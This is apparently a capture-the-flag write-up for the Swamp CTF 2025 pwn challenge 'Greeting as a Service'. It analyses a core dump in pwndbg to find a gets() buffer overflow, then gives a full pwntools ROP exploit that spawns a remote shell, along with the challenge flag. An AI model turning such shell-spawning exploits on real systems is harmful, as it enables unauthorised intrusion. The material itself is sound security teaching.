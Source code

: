 ```yaml
---
title: Greeting as a Service
type: writeup
date: 2025-03-30T17:34:37+03:00
description: Writeup for Greeting as a Service [Swamp CTF 2025]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

A friend of mine set up a greeting as a service server. He gave me a core dump of it to play around with but won't give me source. Find anything useful?

## Intuition

We get a coredump of the remote service. A coredump can't be explored by executing instructions, but the memory can be examined.
Based on the backtrace, I guess we are in some kind of `main()` function:

```
$ gdb -q -core ./coredump_GAAS
pwndbg> bt
#0  0x00000000004011a3 in ?? ()
#1  0x00007ffff7de8083 in ?? ()
#2  0x00007ffff7ffc620 in ?? ()
#3  0x00007fffffffde68 in ?? ()
#4  0x0000000100000000 in ?? ()
#5  0x00000000004011a3 in ?? ()
#6  0x0000000000401240 in ?? ()
#7  0xbdeebaa290c7ef1c in ?? ()
#8  0x0000000000401090 in ?? ()
#9  0x00007fffffffde60 in ?? ()
#10 0x0000000000000000 in ?? ()
```

This guess is purely based on the return addresses. I think from number 4 onwards it's just random values found on the stack, but the addresses 1 to 3 are probably entry functions from libc, like `libc_start_main()`.
So that leaves address 0 to be the `main()` function. Let's disassemble it:

```
pwndbg> x/33i $rip
=> 0x4011a3:	endbr64 
   0x4011a7:	push   rbp
   0x4011a8:	mov    rbp,rsp
   0x4011ab:	sub    rsp,0x10
   0x4011af:	mov    rax,QWORD PTR [rip+0x2e9a]        # 0x404050
   0x4011b6:	mov    ecx,0x0
   0x4011bb:	mov    edx,0x2
   0x4011c0:	mov    esi,0x0
   0x4011c5:	mov    rdi,rax
   0x4011c8:	call   0x401080
   0x4011cd:	mov    rax,QWORD PTR [rip+0x2e6c]        # 0x404040
   0x4011d4:	mov    ecx,0x0
   0x4011d9:	mov    edx,0x2
   0x4011de:	mov    esi,0x0
   0x4011e3:	mov    rdi,rax
   0x4011e6:	call   0x401080
   0x4011eb:	mov    QWORD PTR [rbp-0xa],0x0
   0x4011f3:	mov    WORD PTR [rbp-0x2],0x0
   0x4011f9:	lea    rdi,[rip+0xe04]        # 0x402004
   0x401200:	mov    eax,0x0
   0x401205:	call   0x401060
   0x40120a:	lea    rax,[rbp-0xa]
   0x40120e:	mov    rdi,rax
   0x401211:	mov    eax,0x0
   0x401216:	call   0x401070
   0x40121b:	lea    rax,[rbp-0xa]
   0x40121f:	mov    rsi,rax
   0x401222:	lea    rdi,[rip+0xdee]        # 0x402017
   0x401229:	mov    eax,0x0
   0x40122e:	call   0x401060
   0x401233:	mov    eax,0x0
   0x401238:	leave  
   0x401239:	ret
```

We can notice 5 calls, let's break them down:

- The first two calls, at `0x4011c8`, and `0x4011e6` are to the same address: `0x401080`. Additionally, they function called seems to have the following signature, based on loaded registers: `void func(long? a, int b, int c, int d)`. Additionally, `b` is always 0, `c` is always 2, `d` is always 0. We can see by printing the address where it takes `a` from, that it is most likely a file structure:

```
pwndbg> x/10gx 0x404050
0x404050:	0x00007ffff7fb0980	0x0000000000000000
0x404060:	0x0000000000000000	0x0000000000000000
0x404070:	0x0000000000000000	0x0000000000000000
0x404080:	0x0000000000000000	0x0000000000000000
0x404090:	0x0000000000000000	0x0000000000000000
pwndbg> x/10gx 0x00007ffff7fb0980
0x7ffff7fb0980:	0x00000000fbad2088	0x0000000000000000
0x7ffff7fb0990:	0x0000000000000000	0x0000000000000000
0x7ffff7fb09a0:	0x0000000000000000	0x0000000000000000
0x7ffff7fb09b0:	0x0000000000000000	0x0000000000000000
0x7ffff7fb09c0:	0x0000000000000000	0x0000000000000000
```

Very often I have seen `fbad...` inside the flags field of `FILE` objects. So I realized this is probably `stdin` or `stdout` from libc. Then I thought what function signature that takes a `FILE` pointer in the first slot could be called here.
Given almost all pwn challenges disable buffering on `stdout` and `stdin` before the actuall program, I realized this is probably `setvbuf`: `int setvbuf(FILE *stream, char *buf, int mode, size_t size)`.

It fits perfectly and `buf` can be NULL.

Additionally, another hint that this (and actually the others too) are libc functions is the fact that disassembling the address of the function it calls yields instructions that look **a lot** like they're from the PLT section of a binary:

```
pwndbg> x/3i 0x401080
   0x401080:	endbr64 
   0x401084:	bnd jmp QWORD PTR [rip+0x2f9d]        # 0x404028
   0x40108b:	nop    DWORD PTR [rax+rax*1+0x0]
```

Continuing the analysis, we can see an array of 10 bytes is initialized with 0 next:

```
   0x4011eb:	mov    QWORD PTR [rbp-0xa],0x0 ; <--- 8 bytes
   0x4011f3:	mov    WORD PTR [rbp-0x2],0x0  ; <--- 2 bytes
```

Then this pattern of calls:

```
   0x4011f9:	lea    rdi,[rip+0xe04]        # 0x402004
   0x401200:	mov    eax,0x0
   0x401205:	call   0x401060
   0x40120a:	lea    rax,[rbp-0xa]
   0x40120e:	mov    rdi,rax
   0x401211:	mov    eax,0x0
   0x401216:	call   0x401070
   0x40121b:	lea    rax,[rbp-0xa]
   0x40121f:	mov    rsi,rax
   0x401222:	lea    rdi,[rip+0xdee]        # 0x402017
   0x401229:	mov    eax,0x0
   0x40122e:	call   0x401060
```

We can notice function `0x401060` takes only one string argument. The argument is:

```
pwndbg> x/1gx 0x402004
0x402004:	Cannot access memory at address 0x402004
```

Uhh? That's weird. What are the mappings:

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
          0x401000           0x402000 r-xp     1000   1000 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
          0x403000           0x404000 r--p     1000   2000 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
          0x404000           0x405000 ---p     1000   3000 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
```

Where is that???? Well here we did even more guesswork, where I remembered I had seen cases before where the read-only segment of memory is doubled in a binary,
with it being both at `0x403000` and `0x402000`. So I said "well let's check 0x403004" then:

```
pwndbg> x/1gx 0x403004
0x403004:	0x2073692074616857
pwndbg> x/1s 0x403004
0x403004:	"What is your name?"
```

Great! This is also the thing printed when you connect to the remote, without and newlines. So then `0x401060` MUST be `printf()`.

All that is left now is figuring out what `0x401070` is. Judging from the fact that it takes only one argument, a buffer pointer (the one that was initialized earlier), We thought it MUST be `gets()`, because the remote target is waiting for input at this point.

So we have a simple buffer overflow and we can ROP chain. Lots of gadgets to choose from as well.

## Solution

We reuse the ideas from the [HTB Cyber Apocalypse 2025 Crossbow challenge](https://dothidden.xyz/cyber_apocalypse_ctf_2025/crossbow/).

Syscall a `read()`, insert `/bin/sh`, syscall `execve()`, win.

```py
#!/usr/bin/env python3

from pwn import *

pop_rdi = 0x0000000000401194
pop_rsi = 0x0000000000401196
pop_rax = 0x0000000000401188
pop_rdx = 0x0000000000401198
syscall = 0x0000000000401190
data_addr = 0x404060
gets = 0x401070

payload = b"a" * 0xa + b"b" * 8 + p64(pop_rax) + p64(0) + p64(pop_rdi) + p64(data_addr) + p64(gets) + p64(pop_rax) + p64(59) + p64(pop_rdi) + p64(data_addr + 16) + p64(pop_rsi) + p64(data_addr) + p64(pop_rdx) + p64(0) + p64(syscall)

fake_execve = p64(data_addr + 16) + p64(0) + b"/bin/sh\x00"

target = remote("chals.swampctf.com", 40003)
target.sendline(payload)
target.sendline(fake_execve)
target.interactive()
```

### Flag

```
$ ./solve.py 
[+] Opening connection to chals.swampctf.com on port 40003: Done
[*] Switching to interactive mode
What is your name?Hello, aaaaaaaaaabbbbbbbb\x88\x11!
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu)
$ cat flag.txt
swampCTF{t1m3_t0_s@y_g00dby3}
```

